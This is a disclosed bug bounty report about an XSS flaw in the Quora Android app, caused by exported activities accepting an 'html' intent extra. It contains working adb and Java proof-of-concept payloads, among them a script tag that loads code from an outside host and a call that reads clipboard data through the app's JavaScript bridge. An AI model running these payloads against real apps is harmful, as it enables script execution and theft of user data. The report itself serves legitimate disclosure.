 # [Android] XSS via start ContentActivity

## Report Details
- **Report ID**: 189793
- **URL**: https://hackerone.com/reports/189793
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-09T11:15:23.428Z
- **Disclosed**: 2017-04-05T06:23:59.999Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: quora

## Vulnerability Information
**Summary:**
XSS via start ContentActivity using 'html' parameter.

**Description (Include Impact):**
Arbitrary applications on Android can run the exported activities ContentActivity, ModalContentActivity and ActionBarContentActivity. Using intent extra parameter `html` we can pass javascript, which will be executed in the context of www.quora.com.

Impact: 
* typical XSS on www.quora.com
* access to QuoraAndroid JSBridge (for example, ClipboardData )
* RCE on old Android <= 4.2 (see references)

### Steps To Reproduce

**Using ADB**
alert(123)
```
adb shell
am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
```
Run script from external host
```
am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html '<script src=//blackfan.ru></script>'
am start -n com.quora.android/com.quora.android.ContentActivity -e url 'http://test/test' -e html '<script src=//blackfan.ru></script>'
am start -n com.quora.android/com.quora.android.ModalContentActivity -e url 'http://test/test' -e html '<script src=//blackfan.ru></script>'
```

Access to ClipboardData
```
am start -n com.quora.android/com.quora.android.ModalContentActivity -e url 'http://test/test' -e html '<script>alert(QuoraAndroid.getClipboardData());</script>'
```

**Using another app**
```
Intent i = new Intent();
i.setComponent(new ComponentName("com.quora.android","com.quora.android.ActionBarContentActivity"));
i.putExtra("url","http://test/test");
i.putExtra("html","XSS PoC <script>alert(123)</script>");
startActivity(i);
```

### Your Environment (Browser version, Device, app version, os version etc)

 * Nexus 5, Android 6.0.1

### Supporting Material/References (Screenshots)

 * https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/

**XSS**
{F142023}

**Access to ClipboardData**
{F142024}

## Attachments
- Screenshot_20161209-150324.png
- Screenshot_20161209-145102.png
